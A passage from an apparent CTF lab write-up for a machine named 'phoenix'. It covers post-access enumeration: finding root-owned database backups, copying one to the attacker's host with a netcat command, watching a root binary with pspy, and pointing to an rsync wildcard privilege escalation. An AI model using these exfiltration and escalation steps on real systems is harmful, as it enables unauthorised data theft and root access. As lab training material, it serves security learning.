 ```
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-96-generic x86_64)

editor@phoenix:~$
```

### Backup files
Enumerating the machine I see some interesting files in the `/backups` directory:
```bash
editor@phoenix:/backups$ ls -la
total 2000
drwxr-x---  2 editor editor   4096 Mar 21 00:03 .
drwxr-xr-x 20 root   root     4096 Feb 25 19:40 ..
-rw-r--r--  1 root   root   678549 Mar 20 23:57 phoenix.htb.2022-03-20-23-57.tar.gz
-rw-r--r--  1 root   root   678548 Mar 21 00:00 phoenix.htb.2022-03-21-00-00.tar.gz
-rw-r--r--  1 root   root   678547 Mar 21 00:03 phoenix.htb.2022-03-21-00-03.tar.gz
```

It seems that the system is creating a file every 3 minutes. I will transfer the oldest one to my machine for a closer look:
```bash
❯ nc -l -p 1234 > phoenix.htb.2022-03-20-23-57.tar.gz
...
editor@phoenix:/backups$ nc -w 3 10.10.14.2 1234 < phoenix.htb.2022-03-20-23-57.tar.gz
```

Decompress it:
```
❯ tar -xvzf phoenix.htb.2022-03-20-23-57.tar.gz    
dbbackup.sql
tar: dbbackup.sql: time stamp 2022-03-21 07:57:01 is 163.536085848 s in the future
```

Looking at the contents of the file I notice it is a backup of the mysql database.
But how this is happening? I tried running `pspy` to monitor the processes running but no luck! Enumerated the cronjobs and got nothing!

Decided to go deeper in enumerating the machine when I found an interesting binary in the `/usr/local/bin` directory:
```bash
editor@phoenix:/usr/local/bin$ ls -la
total 24
drwxr-xr-x  2 root root  4096 Feb 13 20:11 .
drwxr-xr-x 10 root root  4096 Jul 31  2020 ..
-rwxr-xr-x  1 root root 15392 Feb 16 22:27 cron.sh.x
```

It is a binary and I cannot read it in plain-text. So I setup another tty with `pspy` running and executed the binary to see what is doing:
![[phoenix/images/image6.png]]

### Rsync privilege escalation
The most interesing things to note above are:
- It is changing directory to `/backups`
- Running `rsync` to every file in the directory (probably using wildcard)
